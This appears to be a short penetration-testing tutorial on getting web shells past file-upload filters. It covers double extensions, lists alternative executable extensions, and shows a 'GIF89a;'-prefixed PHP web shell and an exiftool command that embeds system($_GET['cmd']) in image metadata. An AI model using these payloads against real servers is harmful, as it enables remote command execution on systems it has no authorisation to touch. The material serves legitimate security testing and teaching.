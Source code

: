 # Bypass File Upload Filtering

One common way to gain a shell is actually not really a vulnerability, but a feature! Often times it is possible to upload files to the webserver. This can be abused byt just uploading a reverse shell. The ability to upload shells are often hindered by filters that try to filter out files that could potentially be malicious. So that is what we have to bypass.

## Rename it

We can rename our shell and upload it as shell.php.jpg. It passed the filter and the file is executed as php.

**php**  
phtml, .php, .php3, .php4, .php5, and .inc

**asp**  
asp, .aspx

**perl**  
.pl, .pm, .cgi, .lib

**jsp**  
.jsp, .jspx, .jsw, .jsv, and .jspf

**Coldfusion**  
.cfm, .cfml, .cfc, .dbm

## GIF89a;

If they check the content.  
Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

## In image

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data.  
Then I had to rename the file

mv lo.jpg lo.php.jpg

## Nullbyte

## References

[http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)

[https://www.owasp.org/index.php/Unrestricted\_File\_Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)  
[http://repository.root-me.org/Exploitation - Web/EN - Webshells In PHP, ASP, JSP, Perl, And ColdFusion.pdf](http://repository.root-me.org/Exploitation - Web/EN - Webshells In PHP, ASP, JSP, Perl, And ColdFusion.pdf)

